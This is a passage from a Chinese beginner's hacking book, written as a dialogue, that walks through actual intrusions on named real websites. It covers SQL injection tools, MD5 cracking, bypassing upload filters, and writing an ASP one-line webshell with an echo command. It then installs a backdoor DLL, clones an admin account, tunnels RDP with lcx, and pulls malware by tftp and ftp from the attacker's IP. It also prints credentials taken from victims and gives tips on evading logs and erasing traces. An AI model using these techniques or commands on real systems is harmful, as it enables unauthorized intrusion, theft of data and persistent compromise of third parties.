不过，这次我找到 user 表打开一看，奇怪，UserPassword 里的内容怎么是 `909df0a8f291255a` 这种奇怪的东西啊，而且所有人的密码都是这样怪怪的样子。

问了一下欠钱，他说这叫做 MD5 散列，是经过加密以后的东西。可是我还是不懂，于是他就给我举了一个例子：比如我们要把数字 1 保存下来，可是又不想要别人一看就知道我们保存的是 1，我们就可以用一个函数 y=f(x) 把 x=1 代进去，算出 y，然后把 y 保存下来。如果 f(x)=2x，那么我们保存下来的是 2，等到以后需要的时候，我们再通过 x=(1/2)*y 来还原。这个 MD5 就像那个 y=f(x)，只不过它把任何输入都变成 16 位或者 32 位的 16 进制的东西了，也就是我看到的怪怪的东西。

欠钱还告诉我，如果想知道管理员密码在没有加密以前的明文，我们可以从 0~99999……这样一个一个地去加密然后来对比一下结果和数据库中的是否一样，这叫暴力破解法。有个工具专门做这件事的，叫做 MD5 crack。

首先在数据库中，找到 admin 表，发现 adduser 处有两个用户，一个叫 pnhshqx，另一个叫 happy，他们的密码散列在 admin 表和 user 表中都是一样的，分别是：`cb8e30682b927f35` 和 `909df0a8f291255a`。现在我们就来暴力破解它们。

打开 MD5 crack 后，把密文设置处改为破解多个密文，然后单击那个“设置”按钮，弹出一个对话框，我在那个输入框里填入密文，单击添加按钮，把两个密文都写了进去，然后确定就回到了主界面，如图 4.55。

因为我也不知道管理员会使用什么样的密码，可是欠钱告诉我，一般穷举法都是先试着跑一下 8 位以下的纯数字，或者 7 位以下的纯字母，否则要花很长时间，所以我就把字符设置中选择为数字，然后把长度定为最大 8 位，单击“开始”按钮开始跑了，如图 4.56。花了 5 分钟才跑完，结果提示我一个密码也没找到。把字符集换成小写字母，最大长度定为 7 位，接着跑，结果也没跑出来，不免有些扫兴。欠钱看到我这个样子，告诉我，入侵的时候经常会遇到这样的事，做黑客是很需要耐心和运气的。

想想也有道理，毕竟如果得到密码以后的步骤都是一样的了，而且我还学到了不少东西，也算有收获了，今天就放过这个网站吧！


图 4.55


图 4.56

## 第五届在线网站设计大赛

## WWW.WWW

## 新天地杯工业大展宏图


## 第五章 无敌的入侵利刃

——脚本入侵工具大揭秘

阿剑剑：“这个方法好，只要能够下载对方的数据库，就可以轻易地得到对方的登录密码了，可是要是我们不能下载人家的数据库那该怎么办呀？还有别的办法可以入侵吗？”

“当然有啊，利用对方网站上存在的 SQL 注入漏洞就可以轻松入侵。”

“SQL 注入！？”

“SQL 是数据库里的结构化查询语言，也就是说，我们要从数据库里查询或者修改删除数据，都需要使用这种语言。在 ASP 等动态页面里，SQL 语句有部分是可以由我们提交的，如果由我们提交的变量没有经过正确的处理的话，就可能发生 SQL 注入。简单地说，也就是我们提交的恶意语句注入到程序的 SQL 语句里达到特定的目的。”

“还是不懂呀，老大……”

“那干脆这样吧，我们直接以实例入侵来演示吧。”

“Love you，欠钱，我最喜欢入侵实例了！”

### 5.1 寻找 SQL 注入漏洞

寻找 SQL 注入漏洞一般有两种情况，要么你锁定了要入侵的某个网站，寻找此网站是否存在注入漏洞；要么你还没有目标，仅仅是要寻找到一个可以测试用的注入点。

首先来看第二种情况，很显然我们可以利用 Google。可以注入的网址的形状一般都是：`xxx.asp?id=1234`。我们在搜索的时候，就要求 Google 只搜索这样的页面，需要用到一个语法：`allinurl:`。我们搜索关键字：`allinurl: ".asp?id=1234"`，可是普通情况下一页只显示 10 个结果，我们是要大面积地探测，这样自然是不行的。我们打开 Google 的高级搜索，把每页显示结果改为 100 项，如图 5.1。很快，就搜到了约有 35500 项符合 `allinurl: ".asp?id=1234"` 的查询结果，现在，就在这些页面地址里寻找可以利用的注入点吧。


图 5.1

打开我们在前面章节中用过的 Domain 3.5，切换到 SQL 注入选项中，选择“批量扫描注入点”，在设置中单击“添加网址”，如图 5.2。


图 5.2

## 黑客零起步

### Easy Hacker

把刚才 Google 那个页面的 URL 填进去。确定后，单击“批量分析注入点”，此时 Domain 3.5 就开始自动检测 Google 页面里所有的包含结果并分析是否可以注入，如图 5.3。在检测到的结果中单击右键就可以选择是否进行注入检测。


图 5.3

## 第五章

先别急着去入侵，我们再看看别的工具的批量检测功能。HDSI 也是一款类似 Domain 的综合工具，这里使用的是 3.0 Goldsun 干净拓宽版（据说以前某些版本功能限制太多而且还绑有后门）。打开它后，切换到“扫描注入点”，同样的，把 Google 搜索的页面地址填入，单击“开始扫描”，就会看到它自动分析网页的链接，并且每一个链接都给出是否可以注入的分析，如图 5.4。单击任意结果，就会把 URL 填到最下面的“注入分析”栏，单击该按钮开始检测。


图 5.4

### Easy Hacker

阿 D 注入工具是另一款著名的注入工具，打开它后，单击“扫描注入点”，把 Google 搜索页面地址填入后，会在阿 D 注入工具里直接打开该网页，此时下方有一个小栏目会自动开始显示可以注入的地址（我们可以单击那个蓝色的小箭头把它放大），如图 5.5。


图 5.5

它与前两个工具不同的地方在于，它可以单击 Google 里的链接，转向其它地址，同时仍然保持分析是否可以注入的功能，我们狂点 Google 页面的“下一页”就可以获得更多的注射点了！

好了，这三款注入工具是目前网上最流行的工具，也是我最喜欢的几个。大家细心的话，会发现在同一个关键字搜索的页面里，Domain 发现了 8 个注入点，HDSI 发现了 16 个，而阿 D 发现了 36 个！很显然阿 D 的探测能力最强，不过它的误报率也相当高，Domain 是精确度最高的工具，但是有太多可以注入的地址却无法报告出来，具体你喜欢用哪一个，就自己来选择了。

### 5.2 网站注入入侵实例

#### 5.2.1 Domain 3.5

我们先来看一下 Domain 3.5 的具体入侵实例。还记得我们在前边的图 5.3 中已经检测到许多的注入点了吧，在找到的注入点上单击右键，选择“检测注入”，如图 5.6。


图 5.6

进入“SQL 注入猜解检测”选项里，单击“开始检测”按钮就可以了，如图 5.7。


图 5.7

很快就会看到如图 5.8 所示的界面，提示我们已经检测完毕，确认可以注入，同时告诉我们目标网站使用的数据库类型是 Access。


图 5.8

此时我们单击“猜解表名”，一会儿就会猜解完毕，这次只猜出了一个表名：company。我们选中这张表，再单击右边的“猜解列名”，同样稍等片刻，结果如图 5.9。


图 5.9

### Easy Hacker

只猜到了一个列：id。非常不理想，换下一个，一直试到 `http://www.zlgmcu.com/download/downs.asp?id=1234` 的时候，转机出现了，如图 5.10。猜出了很多的表，一张一张地看，眼睛快花的时候，找到一个 `kucun_user` 表，里面包含有大量的用户资料。而其中有一个“周立功”的用户引起了我们的注意，为什么？看看网站叫做什么：zlgmcu（zlg 不正好是周立功的拼音缩写么）。


图 5.10

他的密码是 `zlg315`。记住了，像这种管理员的密码是非常有价值的！我们继续查看，在 `down_user` 这张表里看到两个用户：`master`、`zlgmcu<,>`，还有一个是 `protec`、`12345678`。这两个密码都有问题，第一个是乱码，第二个则是弱口令，基本上价值不大。但是通过用户名，我们却可以猜测，有可能管理员会使用这些做用户名。

其他信息也搜集得差不多之后，我们要找网站的后台了！切换到“管理员口扫描”处，把扫描设置改一下，变为“由主机地址开始扫描”，然后单击“扫描后台地址”。不一会儿就找到了两个存在的地址。单击右键打开，如图 5.11。


图 5.11

登录界面如图 5.12 所示，把刚才得到的用户名与密码一个一个地组合起来尝试，终于成功使用“周立功”的帐号登录进去了！


图 5.12

只可惜在这个后台找了半天也没看到什么有价值的东西，连上传图片的功能都没有！不过一个小小的“内部 BBS”的链接引起了我的注意。

我们知道，论坛这种程序一般都会有上传图片或者文件的功能，所以，入侵一个网站有时候论坛就是最大的突破点。

还是使用“周立功”的帐号登录论坛，终于在一个不起眼的版块看到了有上传的功能！试试上传一个 ASP 木马，居然成功了！他根本没有检测文件类型！如图 5.13、图 5.14。


图 5.13


图 5.14

### Easy Hacker

拿到了 Webshell 我们要做什么呢？提升权限、安装后门、打扫痕迹等等……不过还是那句老话，我们一步一个脚印，先把其它的 SQL 注入工具学习好了再来慢慢学习这些东西吧。

#### 5.2.2 HDSI 3.0

在前边图 5.4 中 HDSI 检测到了一个注入地址：`http://appserv02.uncw.edu/news/article.asp?ID=1234`，我们单击“注入分析”，在第二行最右边那里单击“开始”按钮；弹出个对话框，提示我们猜解完毕，这时候我们可以看到目标网站使用的是 MSSQL，它的连接用户、权限以及当前连接数据库的名称都显示出来了。此时单击最左边的那个“猜解”按钮，我们会看到不仅猜出了表名，每一个表里有多少的数据量也会显示出来，不过在这些表里，只有一个 person 表看起来像是会有用户信息的，我们选中它，依次猜解列名，然后看到有 Name、Password、Email 等列，一般情况下我们只关心用户名与密码，因为有它们就可以登录后台，所以将 Name 和 Password 选中，猜解。没一会儿所有信息都出来了，如图 5.15。


图 5.15

接着该找后台登录页面了，单击 HDSI 左侧的“扫描后台”按钮，把注入地址由 `http://appserv02.uncw.edu/news/article.asp?ID=1234` 删掉页面信息，只保留 `http://appserv02.uncw.edu/news/`，填入“网站地址”，单击“开始扫描”按钮。HDSI 就开始一个一个地给我们找了，不一会儿在下方出现了几个可能是后台的页面，有一个是 `http://appserv02.uncw.edu/news/adduser.asp`，从页面信息看来应该是添加用户的意思，不管三七二十一，选中它，单击“访问本页”，如图 5.16。

## 黑客渗透步

### Easy Hacker


图 5.16

弹出了一个 IE 窗口打开了它，却自动转向 `http://appserv02.uncw.edu/news/lxoxgxixn.asp?m=x`，如图 5.17。


图 5.17

原来对方把登录页面的名字改为了 lxoxgxixn.asp，难怪我们找不到。只可惜我们访问 adduser.asp 后，它发现我们没有登录就自动转向了登录页面！得来全不费工夫啊，不过它登录的时候，居然是用 Email 和密码来登录的！没关系，重新回到注入分析处，把 Email 与密码再跑一次就好了，moncniefj@uncw.edu，密码为 photo，就选定它了。登录进后台，找啊找，终于发现首页就有一行小字：“You can also add a brand-new article or upload photos.”，如图 5.18。


图 5.18

### Easy Hacker

原来点这里就可以上传照片，那么我们点开它看看，如图 5.19。老规矩，找一个最小的 ASP 木马上传（我把海阳顶端的一句话木马保存为一个 ASP 文件）。这样即使不允许上传也不会浪费我们太长的时间！


图 5.19

不过很快就弹出了如图 5.20 所示的对话框，提示我们文件名应该以 gif 或者 jpg 等结尾的。


图 5.20

因为我们还没有上传，它就知道我们的文件不是图片了，所以很自然地怀疑到它是在客户端做了检查。右键，查看源文件，很自然地看到了一些代码，如图 5.21。


图 5.21

因为我也不懂那些脚本语言，但是这里的 gif、jpg、jpeg……那么明显，用脚趾头也知道就是它们在作怪了！在记事本中选择“文件”“另存为”，把文件类型改为所有类型，文件名写为 uploadForm.htm，这样就以网页形式保存下来了。然后在桌面上打开它，如图 5.22。


图 5.22

这次再查看源文件，把刚才看到的 gif 改为 asp，再搜索“action”，找到 `action="outputFile.asp"` 处，把它改为 `action="http://appserv02.uncw.edu/news/outputFile.asp"`，如图 5.23。保存后，刷新桌面上的网页文件，再次上传，这次提示成功了！可是，成功是成功，我们的木马上传到哪去了呢？它并没有给出地址啊！


图 5.23

回到前台，查看几个新闻，有图片的地方就要特别注意了，如图 5.24。


图 5.24

### Easy Hacker

右键查看图片的属性，发现地址为：`http://appserv02.uncw.edu/news/custom/daken_susan_thumb.jpg`，大胆猜测我们上传的所有照片都是在 `http://appserv02.uncw.edu/news/custom/` 目录下，并且文件名并没有改变！那么我们的 newmm.asp 上传到网站上以后的地址就应该是：`http://appserv02.uncw.edu/news/custom/newmm.asp`。打开它看到一片空白，证明我们的猜想没错（一句话木马如果直接访问肯定是空白了，但是如果文件不存在就会提示 404 错误）。

使用海阳顶端木马 C 端把地址填入，提交后，耐心地等待一阵子就看到了可爱的海阳木马登录界面了，如图 5.25、图 5.26。


图 5.25


图 5.26

至此我们已经成功地得到了一个 webshell 了，由于我们上传了几张图片与 ASP 木马，数据库中是会有记录的。所以，使用 HDSI 看到 Photo 这张表中有几张图片，凡是 ID 大于 1069 的几张都是我传上去的，我们要把这个记录删掉才行。

#### 5.2.3 NBSI 2.0

其实论注入工具，NBSI 2.0 是最先在国内流行发展起来的，它也是笔者最喜欢的注入工具之一。这里我们从 HDSI 里找到一个可以注入的网址：http://www.komipo.co.kr/english/biding/biding_r.asp，后面的东西残缺不全了，所以我们干脆不要它，只保留 http://www.komipo.co.kr/english/，使用 NBSI 来扫描看看。进入“网站扫描”选项，把地址填入“网站地址”，单击“扫描”按钮（这里可以选择快速扫描还是全面扫描，一般快速扫描就可以了），如图 5.30。


图 5.30

它会分析扫描到的地址，并且给出注入的可能性，这里全部都是极高的。那么我们选中其中任意一个地址，单击“注入分析”，如图 5.31。


图 5.31

注入地址已经自动填好了，这里注意到右边还有几个小东西。登录选项如果打上勾的话，会出现如图 5.32 的界面。


图 5.32

这是在某些时候我们要登录才可以访问指定 URL 时使用的。暂时不管它，在后面有一个选择：GET 和 POST。这是 HTTP 协议里发送数据的两种方式，一般来说，服务器会记录所有 GET 方式发送的数据，如果管理员查看 IIS 日志的话就会发现我们做的所有事情；但是如果采用 POST 方式，则只记录我们访问了哪个页面，并不记录我们发送的数据，这样被管理员发现的几率稍微小一些。因此，在能使用 POST 的时候，尽量使用 POST 方式（在这点上它比其他几款注入工具都体贴）。

选择好了以后，单击“检测”按钮，如图 5.33。


图 5.33

从图中我们可以看到一些分析的结果，但是现在我们暂时不去管它。老老实实地去猜一下表名、列名与数据吧，如图 5.34。


图 5.34

注意到这里还有些排序之类的小按钮，设计得很人性化。不过我要提醒大家注意到这里还有个“自动导出”的功能。选中它会弹出如图 5.35 的东西。


图 5.35

我们可以指定保存的路径，等会 NBSI 就会自动以网页形式把结果保存下来。打开它，如图 5.36。怎么样，漂亮吧！


图 5.36

现在，到了去找后台的时候了。我们单击“扫描及工具”按钮，进入如图 5.37 的界面。把 URL 去掉后面的页面，只保留 http://www.komipo.co.kr/english/biding 这样的形式，开始扫描吧。不过这次遇到意外了，所有的页面都是 500 错误。这说明该服务器做过专门的设置，所有不存在的页面都有专门的处理过，此时工具的扫描已经不可信了。

不过今天我们即使不登录后台，一样要拿到 WebShell！注意到今天连接的用户是 SA 了没有？回想当初扫描 SA 空口令入侵的时候，我们就知道 SA 这个账号的权限是非常高的！今天我们就好好利用管理员送我们的这个“大礼”吧！


图 5.37

当 SA 用户连接的时候，我们可以使用 NBSI 上很多其他的功能，比如“NB Treelist 目录列举工具”，或者是命令执行等等，如图 5.38。


图 5.38

在使用此功能之前，我们首先要确认一点，即 SQL 服务器是否和这台 WEB 服务器是同一台机器。打开“NB Commander 命令执行器”，把注入地址填入，注入类型是前面 NBSI 分析过的数字型，在命令文本处写入：ipconfig /all，单击执行，如图 5.39。


图 5.39

这里所有的命令都是由 SQL 服务器执行的，我们得到了它的 IP 地址是 219.252.41.100。然后我们在自己的电脑上打开一个 CMD，输入命令：`ping www.komipo.co.kr`，发现得到的 IP 地址也是 219.252.41.100。

这说明 SQL 服务器与 WEB 服务器就是同一台机器。那么我们可以找到网站的目录后，使用 echo 命令写入一句话木马到该目录，然后访问就可以得到 WebShell 了！

切换到“NB Treelist 目录列举工具”，同样填入注入地址与注入方式后，我们 C 盘到 D 盘一个一个来查找，最后终于在 `d:\new_komipo_\` 发现了整个网站，如图 5.40。


图 5.40

```bash
echo ^<%25eval request(chr(35))%25^> >d:\new_komipo_\eval.asp
```

我们往这个目录下写入一个文件看看：`echo ^<%25eval request(chr(35))%25^> >d:\new_komipo_\eval.asp`。解释一下，这句命令的意思是把 `<%eval request(chr(35))%>` 写入 `d:\new_komipo_\eval.asp`。但是由于“<>”符号在 CMD 下有特殊含义，所以要在它们前面加上一个“^”；而且由于我们的数据其实是通过 IE 提交的，那么“%”也是有特殊含义的，这里将“%”改为其 URL 编码“%25”，最后 `<%eval request(chr(35))%>` 就变成了 `^<%25eval request(chr(35))%25^>`。

最后按照 echo 的语法“echo 内容>目录”，组合成上面的命令。提交后，我们可以再次列举目录确认该文件是否存在。也可以直接访问网站：“d:\new_komipo_”也就是 `http://www.komipo.co.kr/`，那么 `d:\new_komipo_\eval.asp` 就应该是 `http://www.komipo.co.kr/eval.asp`。访问它看看，出现一片空白，按捺不住心中的狂喜，打开海阳顶端一句话木马客户端，输入地址，提交后如图 5.41。


图 5.41

这次既然遇到了 SA 权限，那么我们还可以直接上传一个后门并且使用 SA 权限安装！这里我使用的是特南克斯的随意门，配置程序如图 5.42。


图 5.42

和第三章中木马的配置基本上没什么区别，端口处不需要填写；至于密码提示、进入密码与命令提示，依个人喜欢填写好。服务选项与上线通知的选项前面讲木马的时候也解释过了。这里我配置好了一个 suiyimen.dll，使用海阳木马的 FSO 功能，将它上传到 C 盘下的 MYSQL 目录中，并改名为 mysql.dll，如图 5.43。


图 5.43

回到 NBSI 的命令执行器里，输入安装命令：“rundll32.exe DLL名字,install”，也就是 `rundll32.exe C:\MySQL\data\mysql\mysql.dll,install`，就安装完毕了。打开随意门专用连接器，如图 5.44。


图 5.44

填入肉鸡的 IP 地址，回车后出现图 5.45 的界面，输入密码我们就成功获得了一个 CMD Shell 了（使用随意门需要我们自己有公网的 IP 地址，或者可以将自己的 1330 端口映射到路由器上）。在这里输入命令 `clone password`，就会自动把 Guest 用户克隆成 Administrator。


图 5.45

> **小知识：克隆用户**  
> 克隆用户的意思是把一个用户的所有信息都弄成与被克隆的对象一样，包括桌面、权限等。旧界面下很难看出来。因此如果直接添加一个具有 Administrator 权限的后门账号是很嫩的。

把 Guest 用户克隆成 Administrator 以后，我们可以使用 Guest 用户登录，密码是 password。输入 `netstat -an`，我们还可以看到这台服务器开了 3389，但是可惜的是连接失败，估计是有防火墙的原因。于是输入命令 `tasklist`，一个进程一个进程地分析（用百度搜索资料）。把不认识的进程全部杀掉了也没能连接上肉鸡的 3389，难道它不是软件防火墙？

使用 mt.exe 查看网卡信息：

```bash
D:\new-komipo-\mt.exe --nicinfo
SecurityFilter:        Disabled NIC 1:
IP Address  :          219.252.41.100
TCPAllowedPort : All   UDPAllowedPort : All
```

发现没有做 TCP/IP 过滤，估计只有一个可能了，那就是对方是硬件防火墙！那么我们就没有办法了吗？当然不是，这里给大家介绍一款工具叫做 lcx.exe。使用方法如下：

- 本地打开 CMD，使用 lcx.exe 监听好端口：`lcx.exe -listen 1234 9833`
- 将 lcx.exe 上传到肉鸡上，这里路径如下：`\WebRoot\MySQL\bin\mylcx.exe`
- 使用随意门连接肉鸡后，输入 shell 得到一个 CMD Shell，在这个 shell 中运行：`F:\WebRoot\MySQL\bin\mylcx.exe --slave 58.49.189.173 1234 127.0.0.1 3389`
- 本地看到 lcx.exe 的窗口中有人连接并处于监听状态以后，就可以打开远程桌面连接器，填入 `127.0.0.1:9833`
- 现在成功连接到远程桌面了。输入用户名 guest，密码 password，如图 5.46、图 5.47。一只香喷喷的 3389 肉鸡就到手了！


图 5.47

## 5.3 其它SQL注入工具大综合

阿剑剑眼看着欠钱转眼间就入侵了好几个网站，其中还有一台得到了最高权限并安装上了随意门，很是羡慕，于是对欠钱说：“我也想试一下了，那个啊D注入工具的使用看起来更简单，就把它交给我自己来玩吧。”

说着自己就坐到电脑前，打开啊D注入工具，开始弄了起来。

首先在欠钱搜集的众多注入点里随便挑选出一个，填到啊D注入工具里进行扫描。当最下方提示可以注入之后，双击该地址，自动转换到注入界面。单击“检测”按钮，提示可以注入。不过和别人不一样的是，在检测表段时，有两个按钮可以用，于是请教欠钱。

> “这是由注入的性质决定的，如果是 Access 类型的数据库，那么我们只能去猜测表名；但是如果是 MSSQL，我们可以通过特殊的手段，直接从某个地方把数据库里所有包含的表名与列名一个一个地读出来。这也是第一次使用 Domain 注入的时候，只猜出那么一点点数据的原因。”

“那就是说，只要‘MSSQL专用表段检测’按钮可用，我们就要用它咯？”

说话间，表段已经检测完了，阿剑剑像发现了新大陆一样：“为什么里面有一些像 jiaozhu 这样的表名啊？这不是韩国机吗？难道说他们也有教主？”

> “这是因为以前我们用 HDSI 检测过该主机，在执行某些功能，比如列目录、执行命令的时候，HDSI 会首先把结果存放到一张临时表里，然后再从这张表里把结果一条一条地读出来。HDSI 的表名默认是 jiaozhu，其他几个工具，像 NBSI、Domain 和这款啊D注入工具都一样，只不过表名略有不同而已。所以一个习惯良好的入侵者，应该在临走之前把这些痕迹都打扫干净……”

听明白了以后，阿剑剑回来继续检测字段与内容，可是却发现它速度很慢。试着把这个 URL 放到 HDSI 里检测，没一会儿所有内容都跑出来了；再找个注入点后，发现啊D探测能力确实很强，可是在实际注入时，不仅速度慢，还有很多功能都有限制，提示要我们注册。于是干脆把手一甩：“欠钱，这几个工具我也玩得差不多了，注入不就是那么回事吗？找到有漏洞的地址，猜用户名与密码，进后台，上传 ASP 木马……”


欠钱微笑着答道：“没错，不过这只是最基础的 SQL 注入啊。你看我们遇到 SA 用户的时候，还可以拿到最高权限。不如这样吧，反正我们也有了三次入侵的经验了，我再给你简单地介绍一下市面上还有哪些 SQL 注入工具。”

#### 5.3.1 绝世猜解——CSC

印象中它好像是国内第一款注入辅助工具，打开后的界面如图 5.48 所示。单击那个大大的 CSC 按钮，打开“选项”菜单，我们要填入可以注入的地址，还有注入时要猜解的管理账号表名等字典的设置。


图 5.48

单击那个“字典”按钮，依次设置好“管理账号表名”“账号字段名”“密码字段名”“管理入口”，如图 5.49。


图 5.49

确定返回后，单击那个大大的“GO”按钮就开始工作了，如图 5.50。


图 5.50

在注入的过程中，它会显示所有的注入语句，想学手工注入的朋友可以参考一下。同时我们可以打开“猜解管理员口”选项查看它扫描后台的结果，如图 5.51。


图 5.51

就以检测功能来讲，绝世猜解 CSC 所有的功能，HDSI、Domain、啊D都有，而且每次注入都要设置一大堆的东西，因此在人性化上做得还不够，可以说基本上没有什么优点。但是作为国内第一款注入工具来说，却有它值得自豪的地方。

### 5.3.2 命令行下注入——WIS与WED

这是小榕早期开发的两个小工具，WIS 是用来扫描注入点的，WED 则专门负责猜解任务。我们使用 `wis http://biz2.korea.ac.kr/research/main.asp?idx=51` 来扫描一下这个注入点是否可用，结果如图 5.52。


图 5.52

我们可以加上 `/a` 参数，也就是 `wis http://biz2.korea.ac.kr/research/main.asp?idx=51 /a`，就可以猜解后台的路径了，如图 5.53，成功地找到了后台的登录页面。


图 5.53

输入 `wed http://biz2.korea.ac.kr/research/main.asp?idx=51`，就开始猜解用户名与密码，如图 5.54。只不过这一次，小榕的工具没有能笑到最后，它什么都没猜出来（对方的表名太怪，它自带的字典里没有这些数据）。


图 5.54

这又是一款早期开发的注入工具，那时候对于 MSSQL 下的注入还不够成熟，所以很多时候 WED 什么也猜不到是很正常的。但是作为命令行下的工具，稳定与高速是当初它在人们心目中占有一席之地的主要原因吧。

#### 5.3.3 20NT 浪心作品——冰舞

冰舞打开后的界面如图 5.55。在任务栏里没有对应的图标，使得我们切换程序的时候要找到它非常麻烦（它会自动缩到任务图标处，像 QQ 一样）。


图 5.55

## 黑客零起步 Easy Hacker

打开“整站分析”，类似于 Google 搜索注入漏洞一样，我把百度搜索的页面填入“目标网址”，结果程序崩溃了。郁闷了一下，找出刚才那个可以注入的地址，打开“脚本注入”选项，填到“目标网址”里，单击“探测漏洞”，结果提示我要输入关键字。

### 小细节：关键字

由于注入时，大多情况下我们是用猜的方式。假设我们猜测正确，服务器返回给我们一个页面；如果猜测错误，服务器将返回一个不同的结果。可是程序不会自动区分什么是正确的页面、什么是错误的页面。因此，我们去正确的页面上找一些字符，它在错误页面中是不存在的，把它填到程序中，程序只要判断收到的信息中是否包含该关键字，就知道发出的语句是正确还是错误。

举例说明，`http://biz2.korea.ac.kr/research/main.asp?idx=51` 后面加上“and 1=1”后，正常返回原页面。而 `http://biz2.korea.ac.kr/research/main.asp?idx=51 and 1=2` 返回的页面就出错了。此时我们选取两个页面中不同的地方就可以了，如图 5.56（其中 `%20` 是空格自动转换为 URL 编码以后的结果）。


图 5.56

个人感觉这又是一款没有出色点的工具，每一个注入点都要填写关键字，不怕把使用者麻烦死？准确度与速度也不出色，整体评价一般。

#### 5.3.4 CnSaferSI

这是一款可以注入 ASP、PHP、JSP 几种页面，支持 Access、MSSQL、MYSQL、Oracle 等数据库的强大工具（前面我们一直以 ASP 为例，事实上 PHP 和 JSP 等也是可以注入的哦）。CnSaferSI 打开后的界面如图 5.57 所示。


图 5.57

把 URL 填入“地址”栏，单击工具栏第三个按钮便开始检测。如果可以注入，它还会以图形方式报告我们注入地址的文件类型、数据库、注入类型与注入方法，如图 5.58。


图 5.58

此时第五个按钮“猜解表名”才变为可用状态，单击它猜完表名以后，选中任意表，第六个按钮“猜解列名”才变为可用状态；同理，勾中需要猜解的列，第七个按钮“猜解数值”才可以使用。

为了通用，CnSaferSI 的系统设置里增加了很多细小的功能，不过一般用户可能很少接触它们。作为一款注入辅助工具，它在使用上可能是最不直观的一款工具，但是功能强大，不得不令人佩服。实际上，可以注入 PHP 与 JSP 才是我喜欢它的理由。对一般的注入，它最体贴的应该是分析关键字的功能了。

在没有开始注入之前，第二个按钮是可用的，单击它后如图 5.59。点击分析就开始判断正确页面与错误页面时的差异了。左边是正确页面的内容，右边是错误页面的内容，差异处以红色标出，非常醒目。单击某一行，还可以直接复制里面的内容出来。


图 5.59

好了，最后我们再来评价一下前面讲过的 HDSI、NBSI、Domain 与啊 D 注入工具。

- 啊 D：检测功能强大，能检测出很多同类工具无法检测出的注入点，但是检测出来自己却注入不了，需要用别的工具来进行下一步的入侵。
- Domain：检测功能最弱，但是准确度很高，速度也很快，还显示注入时使用的 SQL 语句，感觉不错。但是它在其他方面的功能掩盖了 SQL 注入的光芒。
- NBSI：作为注入王牌，在 NB_Command 命令执行功能上，它的返回结果相当漂亮，与 HDSI 对比如图 5.60 所示。列举目录与文件也是一样的，缺点在于不稳定，经常会提示页面传输错误是否重传，速度也没有别的注入工具快。
- HDSI：基本上对是否可注入的判断，准确度与速度都还不错，而且它在 PHP 的注射上也一样大放光彩。唯一的缺点是执行命令时返回的结果太乱。


图 5.60

## 第六章 通向高手的捷径

### ——脚本入侵高级篇

经过一段时间的学习，阿剑剑已经可以独立地入侵许多网站了，对于注入工具的使用也是越来越熟悉了。这天，阿剑剑提出了一个问题：“欠钱，我发现这些注入辅助工具上有很多其他的功能啊，它们是怎么使用的？上次遇到一个 SA 权限的注入点时，你用到过其中的目录读取与命令执行功能，我们一下子就入侵完成了，还得到了一台 3389 的肉鸡！要是每个注入点我们都使用这些功能，不就很容易入侵了吗？”

欠钱听完这话，知道阿剑剑对于数据库的了解还不够，所以耐心回答道：“这些功能只能针对 MSSQL 的数据库使用，Access 这种数据库是用不上的。而就算是 MSSQL 数据库，我们也得看权限是否足够。我们注入时有时遇到的是 SA 权限，这是最高权限；有的时候是 db_owner 权限；还有的时候是 public 权限（最低）。一般来说，只有前两者才有可能使用那些高级功能中的一部分。”如图 6.1。


图 6.1

“那什么样的权限才可以执行什么样的功能呢？”阿剑剑提出这个很实在的问题。

“这就不好说了，因为这些功能大多是利用了 MSSQL 的一些存储过程来实施的。有的时候管理员会把一些黑客们喜欢使用的存储过程删除掉，这样我们就用不成了。不过一般来说，SA 用户可以使用所有的高级功能，包括命令执行、读取注册表、列举目录、上传文件等等。DB_owner 权限不能执行命令，但是可以读取注册表、列举目录；上传文件时不能利用存储过程上传，但是可以使用备份数据库功能。而 public 用户则几乎什么操作都做不了。我们还是通过实例来看看它们的具体使用吧！”

### 6.1 SA 权限执行命令入侵实例

打开 Google，搜索注入点，找到这么一个地址：`http://www.lost114.com/member/join/member_id_check.asp?ID=`，把它填入 NBSI 注入分析中，使用 POST 方式检测，提示权限为 SA，注入类型为字符型，如图 6.2。


图 6.2

既然是 SA 权限，那么还犹豫什么，直接切换到 NBcommand 命令执行器里，输入 `ipconfig /all`，查到 IP 地址是 211.200.30.44。可是我们在 ping 该网站的时候，得到的 IP 地址却是 211.200.30.40，如图 6.3。


图 6.3

这时候，因为我们可以使用 NBSI 以系统权限执行任意命令了，就已经相当于有了一个 shell。所以，我们干脆不入侵 Web 服务器，而直接夺取 SQL 服务器的最高权限。打开远程桌面连接器，输入 NBSI 中得到的数据库服务器 IP 地址 211.200.30.44，祈祷可以 3389 登录。这样我们所有的入侵过程就只是在 NBSI 的命令执行器里输入添加用户的命令而已。

只可惜这样的几率太小，很快就提示连接不上。输入 `query user` 在 NBSI 中确认一下该服务器是否开有终端服务，提示“这个命令需要终端服务的运行”。原来这台机器还没有安装终端服务！那么我们就来给管理员安装一次吧。打开 HDSI 3.0，直接切换到高级命令执行处，把注入地址填写好以后，别忘了把注入方式改为字符型。然后单击“开启3389”，弹出个对话框，提示我们安装 3389 完毕，等待肉鸡重新启动使该服务生效，如图 6.4。


图 6.4

几分钟后，服务器重新启动完毕，再次使用远程桌面连接，依然失败。纳闷中使用 HDSI 执行 `netstat -an -p tcp` 查看它打开了哪些 TCP 端口，如图 6.5。


图 6.5

没看到 3389 端口，而且再次输入 `query user` 还是那句提示（很奇怪为什么韩国的服务器上会显示中文？难道有人入侵过并替换掉了 query.exe）。看来开启 3389 是没有希望了，那么我们就上传一个传统的木马吧。

首先想到的是 TFTP 法。本地打开 TFTP 服务器，单击“Setting”按钮，把 Base Directory（基本路径）设为木马的目录，我这里设为 `I:\BackDoor&Troy\随意门 V2.0`，如图 6.6。


图 6.6

单击“OK”确定后，我们在 NBSI 或者 HDSI 中执行命令：`tftp -i 58.49.187.150 get suiyimen.dll`。58.49.187.150 是我的 IP 地址，而 suiyimen.dll 就是随意门的服务端了。结果提示“TIME OUT”，如图 6.7。这种情况一般都是由于对方的防火墙导致的。输入 `net start` 查看开启了哪些服务，结果发现都很正常，可就是看不到杀毒软件或者防火墙的影子，难道说这是传说中的硬件防火墙？


图 6.7

既然使用 tftp 不成功，我们就换 FTP 试试。首先在本机架设好一个 FTP 服务器，如图 6.8。在 NBSI 中依次执行以下命令：

```txt
echo open 58.49.187.150>ftp.txt
echo a>>ftp.txt
echo a>>ftp.txt
echo bin>>ftp.txt
echo get suiyimen.dll>>ftp.txt
echo bye>>ftp.txt
ftp -s:ftp.txt
del ftp.txt
```


图 6.8

